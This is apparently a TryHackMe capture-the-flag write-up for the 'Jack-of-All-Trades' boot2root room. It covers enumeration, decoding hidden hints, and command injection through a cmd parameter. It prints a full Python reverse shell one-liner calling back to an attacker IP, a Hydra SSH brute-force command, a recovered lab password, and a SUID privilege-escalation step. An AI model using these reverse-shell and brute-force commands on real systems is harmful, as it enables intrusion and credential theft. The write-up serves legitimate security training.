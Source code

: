 # [Jack-of-All-Trades](https://tryhackme.com/room/jackofalltrades)
> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Jack-of-all-trades |
| Difficulty | Easy |
| Tags | conference, challenge, boot2root |

---

## Index

- [Enumeration](#enumeration)
- [Gaining access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)


---

```bash
export IP=10.10.152.45
```

---

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 http
80 ssh
```

The ports have been swapped - meaning we have been given the headache of reconfiguring firefox to allow an http requests from port 22. This [resource](https://support.mozilla.org/en-US/questions/1083282) helped in case you're facing difficulty yourself.

Moving on to the website, we see its a simple static website but navigating the source code of the page yields some interesting information.

![comment_hint](https://user-images.githubusercontent.com/87711310/208108653-1158beed-050a-45a5-81f1-2b0a1e46e5b3.png)


It is quickly evident that this is base64 encoded (notice the two equal signs at the end) and [decoding](https://gchq.github.io/CyberChef/) yields an interesting note.

![password_note](https://user-images.githubusercontent.com/87711310/208108671-0f1a8351-46ec-4ce2-866d-fa019980b62b.png)


Navigating to `recovery.php` again yields an interesting result in the comments of the page.

Time to decode it! I first decode it from bsae32 which seems to yield hex characters. So I convert it from hex to ascii and it is becoming evident that I am on the right path as I have some sort of rotation cipher. It's rot13! And we are given the following hint...

![password_hint](https://user-images.githubusercontent.com/87711310/208108668-702c10e3-4f56-4d19-9bb3-80699cd9cb0c.png)

Using the passphrase we got earlier, I tried decoding the steg image, which indicated I was on the right path but this was the wrong picture. Trying again with the jackinthebox picture...I failed but that left one last picture to be decoded: the header image.
Decoding that was a success!

We now have a username and password which which we can log into the `recovery.php` site.

---

### Gaining access

Going onto the page, there is the solitary test that we must `GET a 'cmd' and future-jack will run it for you`. So we can pass through commands using.

`http://<<IP>>:22/nnxhweOV/index.php?cmd=whoami`

![command](https://user-images.githubusercontent.com/87711310/208108647-afaf6b57-1f33-4b73-9fcb-2527aec6f6e8.png)


Constructing a python reverse shell after checking which python version is applicable:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<My IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And now we have access to the box!

Looking in the home directory, we notice a file named `jacks_password_list`...
Hydra time:

```bash
$ hydra -l jack -P password_list.txt -t 64 ssh://$IP:80
```

Yields the result: `jack:ITMJpGGIqg1jn?>@`

Now that we have access to the box we can get the first flag...or not quite yet since its in jpg format...
Thankfully the flag is written in the image so we don't have to do any fancy decoding process.

### Priviledge Escalation

Now using linpeas to quickly enumerate the system for weaknesses, we notice that `strings` has its SUID bit set...

I first checked if it was possible to use it to escalate priviledges but in the end I decided to just run:

```bash
$ strings /root/root.txt
```

![root_flag](https://user-images.githubusercontent.com/87711310/208108680-fe69a884-cb8b-4a23-a53c-3c3818ac5b29.png)

(The root flag has been cropped out of the screenshot)

To snag the root flag! And we are _**complete!**_
I really enjoyed this room despite it being a fairly simple one. Highly recommended for a quick pep-up if needed!


